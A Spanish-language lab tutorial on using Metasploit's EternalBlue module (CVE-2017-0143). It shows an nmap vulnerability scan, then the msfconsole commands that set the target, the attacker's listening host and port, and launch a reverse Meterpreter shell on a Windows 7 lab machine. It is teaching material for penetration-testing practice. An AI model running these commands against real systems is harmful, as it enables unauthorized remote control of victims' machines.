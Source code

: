 # Uso Básico de Metasploit – Explotación EternalBlue en Windows

Maquinas que vamos a utilizar Kali Linux y Windows 7 vulnerable

Hemos hecho la búsqueda de equipos en la red como hemos aprendido anteriormente y hemos escogido un maquina y un puerto para hacerle un script de vulnerabilidades 

```bash
nmap --script "vuln" -p445 10.0.3.6
```

Siendo este el resultado: 

![image.png](./imagenes/image.png)

Muestro objetivo en este ejercicio es entrar en la maquina objetivo que es un Windows 7.

Copiamos el CVE y lo apuntamos por que lo vamos a necesitar. **CVE-2017-0143**

- Vamos a abrir el Metasploit Framework. Lo podemos hacer de dos maneras **escribiendo el siguiente comando**:
    
    ```bash
    sudo msfdb init && msfconsole 
    ```
    
    <aside>
    💡
    
    **`sudo msfdb init`**:
    
    - Este comando inicializa la base de datos que utiliza Metasploit. `msfdb` gestiona bases de datos, como PostgreSQL, que se emplean para almacenar información sobre los hosts y exploits durante la ejecución de Metasploit.
    - Requiere permisos de superusuario (`sudo`) para configurar correctamente los servicios relacionados.
    
    **`&&`**: 
    
    - Permite encadenar comandos. Su función es sencilla: el segundo comando se ejecutará solo si el primero se completa con éxito (es decir, si no hay errores en el primer comando).
    
    **`msfconsole`**:
    
    - Este comando lanza la consola interactiva de Metasploit. Es el punto principal de interacción con el framework.
    </aside>
    

O desde el **menú de aplicaciones**:

![image.png](/imagenes/image%201.png)

- Ya dentro del del Metasploit vamos a utilizar el comando **search.**
    
    Tenemos dos opciones podemos escribir el CVE o la vulnerabilidad que previamente habremos averiguado haciendo una investigación por internet.
    
    ![image.png](./imagenes/image%202.png)
    
    ![image.png](./imagenes/image%203.png)
    
    A partir de aquí es ir probando, no hay un método infalible, nos fijaremos en el ranquin por ejemplo.
    
- Vamos a **usar el exploit** numero 0:
    
    `use 0`
    
    ![image.png](./imagenes/image%204.png)
    
    Como vemos el prompt a cambiado indicándonos que a cargado el exploit y que estamos dentro de el.
    
    - Le decimos que nos muestre las **opciones de configuración del exploit**:
        
        `show options`
        
        ![image.png](./imagenes/image%205.png)
        
        <aside>
        💡
        
        Tenemos que tener en cuenta que dentro del exploit existen el exploit en si y el Payload (la carga útil).
        
        **Exploit**:
        
        - Un ***exploit*** es un código o técnica que aprovecha una vulnerabilidad o debilidad en un sistema, software o aplicación. El propósito de un exploit puede variar, pero generalmente es para obtener acceso no autorizado, ejecutar comandos o causar un fallo en el sistema.
        
        **Payload**:
        
        - Un ***payload*** es el "código útil" que se ejecuta una vez que el exploit tiene éxito. En otras palabras, es lo que hace el trabajo real después de que se ha explotado la vulnerabilidad.
        - Los payloads pueden realizar varias acciones: abrir una puerta trasera (*backdoor*), obtener información del sistema, agregar un usuario administrativo, o incluso ejecutar malware.
        </aside>
        
        ![image.png](./imagenes/image%206.png)
        
        Si nos fijamos vemos que hay campos que son obligatorios y otros no y campos que ya están rellenados. Pues debemos rellenar al menos los campos obligatorios para que el exploit pueda ser lanzado.
        
        - Empezamos. **RHOSTS que seria la IP de la maquina victima** que previamente hemos conseguido en el reconocimiento de la red.
            
            `set RHOSTS 10.0.3.6`
            
            ![image.png](./imagenes/image%207.png)
            
            Vamos a verificar que se a cargado el parámetro. hacemos un `clear` y un `show options` .
            
            ![image.png](./imagenes/image%208.png)
            
        
        - **RPORT el puerto contra el que lanzaremos el exploit**. En este caso ya viene por defecto ya. Pero si configuramos otro exploit debemos fijarnos si esta puesto y si es el correcto para ese exploit en concreto.
        
        Miraremos también que la configuración del Payload sea la correcta. Por ejemplo **LHOST** seria la IP de nuestra maquina atacante y esto es importante por que es donde yo voy a recibir la conexión reverse, Ya que es donde yo quiero enviarme a mi mismo el control de la maquina victima.
        
        En caso de querer saber nuestra IP podemos usar estos comandos en una terminal.
        
        - `ifconfig`
        - `hostname -I`
        
        **LPORT seria el puerto que esta a la escucha** , por norma general Metasploit ya tiene unos puertos por defecto para esto y nos los escoge por defecto.
        
        **La modificación** de estos datos **seria siempre igual** :
        
        `set RHOSTS 10.0.3.6`
        
        `set LHOST 10.0.3.4`
        
        `set LPORT 4444`
        
        `etc…`
        
        Cuando estemos listos. Para ejecutar el exploit podemos usar el comando `run` o el comando `exploit`
        
        ![image.png](./imagenes/image%209.png)
        
        ![image.png](./imagenes/image%2010.png)
        
        Como vemos nos muestra el **prompt de una consola Meterpreter**. Aquí entra en juego **saber manejar comandos de Linux o Windows**. En este caso como estamos dentro de una maquina Windows debemos saber movernos con los comandos de un terminal CMD.
        
        ![image.png](./imagenes/image%2011.png)
        
        ![image.png](./imagenes/image%2012.png)
        
        Vamos a hacer una prueba. vamos a crear una carpeta dentro del escritorio de Windows.
        
        ![image.png](./imagenes/image%2013.png)
        
        ![image.png](./imagenes/image%2014.png)
        
        ![image.png](./imagenes/image%2015.png)
        
        Esto es básicamente como se explota una vulnerabilidad de forma estándar.